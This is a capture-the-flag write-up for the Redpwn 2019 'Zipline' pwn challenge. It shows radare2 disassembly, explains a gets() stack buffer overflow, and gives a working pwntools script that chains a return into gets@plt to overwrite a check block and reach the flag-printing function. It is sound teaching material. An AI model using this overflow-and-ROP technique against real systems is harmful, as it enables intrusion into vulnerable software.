 ## Redpwn CTF Zipline Challenge

### Challenge Info

__ctf__: `Redpwn` \
__challenge__: `Zipline` \
__category__: `Pwn` \
__solves__: `141/926` \
__points__: `50` \
__solver__: `ordbl0ke` \ 
__description__: `written by: blevy, nc chall2.2019.redpwn.net 4005` \
__original write up__: [here](https://github.com/dissect-ctu/ctfs/tree/master/2019/Redpwn_CTF/pwn_Zipline_50pts) 

---

We are given binary file `zipline`.

### Write-up

```bash
zipline: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=477e3fba96c095925fe6e4b7983eb40627ea5dbd, not stripped
```
The file is 32-bit executable, not stripped, so I headed straight to `radare2` to disassemble it.

The analysis revealed that `main` function calls two subsequent functions, `zipline` and `i_got_u`. `zipline` function asks for user input and fails to check for boundaries and thus produces stack overflow vulnerability. The `i_got_u` function discloses flag(opens and prints file `flag.txt`) if certain memory block does not contain zeroes(this block is initialized to zeroes).

It became pretty clear now, that we are supposed to use the vulnerability in `zipline` function to alter the content of particular memory block (8 bytes) initialized to zeroes. 

#### Vulnerability

Asking `radare2` to disassemble `zipline` function (`pdf @ sym.zipline`) produces the following output:

```asm
	; var char *s @ ebp-0x12
	; var int local_4h @ ebp-0x4
	; CALL XREF from sym.main (0x8049564)
	0x080494ce      55             push ebp
	0x080494cf      89e5           mov ebp, esp
	0x080494d1      53             push ebx
	0x080494d2      83ec14         sub esp, 0x14
	0x080494d5      e8a3000000     call sym.__x86.get_pc_thunk.ax
	0x080494da      05262b0000     add eax, 0x2b26             ; '&+'
	0x080494df      83ec0c         sub esp, 0xc
	0x080494e2      8d55ee         lea edx, dword [s]
	0x080494e5      52             push edx                    ; char *s
	0x080494e6      89c3           mov ebx, eax
	0x080494e8      e873fbffff     call sym.imp.gets           ; char *gets(char *s)
 	0x080494ed      83c410         add esp, 0x10
	0x080494f0      90             nop
	0x080494f1      8b5dfc         mov ebx, dword [local_4h]
	0x080494f4      c9             leave
	0x080494f5      c3             ret
```

We can immediately spot the vulnerable call to `gets` that accepts user input and stores it to `ebp-0x12` referencing local buffer. We can thus overflow this buffer easily. 

#### Exploitation

From the initial analysis we know that in order to get our flag, we need to alter memory block. Let's have a look what is meant by this. At the beginning of `i_got_u` function, we have the following:
```asm
0x080a0113      0fb683410000.  movzx eax, byte [ebx + 0x41] ; [0x41:1]=255 ; 'A' ; 65
0x080a011a      84c0           test al, al
0x080a011c      0f8431010000   je 0x80a0253
0x080a0122      0fb683420000.  movzx eax, byte [ebx + 0x42] ; [0x42:1]=255 ; 'B' ; 66
0x080a0129      84c0           test al, al
0x080a012b      0f8422010000   je 0x80a0253
0x080a0131      0fb683430000.  movzx eax, byte [ebx + 0x43] ; [0x43:1]=255 ; 'C' ; 67
0x080a0138      84c0           test al, al
0x080a013a      0f8413010000   je 0x80a0253
0x080a0140      0fb683440000.  movzx eax, byte [ebx + 0x44] ; [0x44:1]=255 ; 'D' ; 68
0x080a0147      84c0           test al, al
0x080a0149      0f8404010000   je 0x80a0253
0x080a014f      0fb683450000.  movzx eax, byte [ebx + 0x45] ; [0x45:1]=255 ; 'E' ; 69
0x080a0156      84c0           test al, al
0x080a0158      0f84f5000000   je 0x80a0253
0x080a015e      0fb683460000.  movzx eax, byte [ebx + 0x46] ; [0x46:1]=255 ; 'F' ; 70
0x080a0165      84c0           test al, al
0x080a0167      0f84e6000000   je 0x80a0253
0x080a016d      0fb683470000.  movzx eax, byte [ebx + 0x47] ; [0x47:1]=255 ; 'G' ; 71
0x080a0174      84c0           test al, al
0x080a0176      0f84d7000000   je 0x80a0253
0x080a017c      0fb683480000.  movzx eax, byte [ebx + 0x48] ; [0x48:1]=255 ; 'H' ; 72
0x080a0183      84c0           test al, al
0x080a0185      0f84c8000000   je 0x80a0253
```
We can see that these 8 bytes are gradually checked to contain zero. If some does, the program jumps to the end of the function, otherwise, the flag is printed.
We found out that the value of `ebx` is the same each time, and thus found out the address where we need to start altering: `0x804c041`. 

Since the ROP gadgets I found in the executable, didn't contain any write-to-memory gadgets, I decided to use the `gets` function. 

The idea is as follows: once we overflow the buffer, we place address of `gets` in `plt` as our return point followed by value `0x804c041`, which will be interpreted as argument for `gets` and thus the target address. When this `gets` is called, we will send 8 `A`s on standard input and thus alter the 8 bytes on address `0x804c041`. As a returning point from the `gets` we want to jump to function `i_got_u` which will print the flag for us.

#### Exploit

Here is the exploit code as described earlier.

```python
from pwn import*
import time

elf = ELF('./zipline')
p = process('./zipline')

offset = 0x16*'A'
gets_plt = p32(elf.plt['gets']) # 0x08049060 
ret_addr = call_i_got_u = p32(0x08049569) # address of call i_got_u instruction
target_addr = 0x804c041

gets_arg = p32(target_addr)

log.info('plt gets address: ' + hex(elf.plt['gets']))

payload = offset
payload += gets_plt
payload += ret_addr
payload += gets_arg

got = p.recvline()
log.info('received: ' + got)
p.sendline(payload)
p.sendline('AAAAAAAAAAA') # this is the input for the gets that we called
flag = p.recvline()

log.info(flag)
```

#### References
